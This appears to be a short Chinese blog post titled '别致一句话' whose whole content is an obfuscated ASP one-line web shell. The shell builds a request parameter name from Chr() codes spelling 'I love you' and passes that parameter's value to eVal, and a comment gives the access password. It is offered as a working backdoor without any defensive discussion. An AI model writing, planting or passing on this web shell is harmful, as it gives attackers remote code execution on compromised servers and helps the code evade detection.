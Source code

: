 title: "别致一句话"
date: 2012-08-16 22:24:04
tags:
id: 109
comment: false
---

```

&lt;%
i=(Chr(-12590))
love=(Chr(-20306))
you=(Chr(-15133))
OK=i&amp;love&amp;you
CNM=Request(OK)
eVal CNM 'pass:我爱你
%&gt;

```
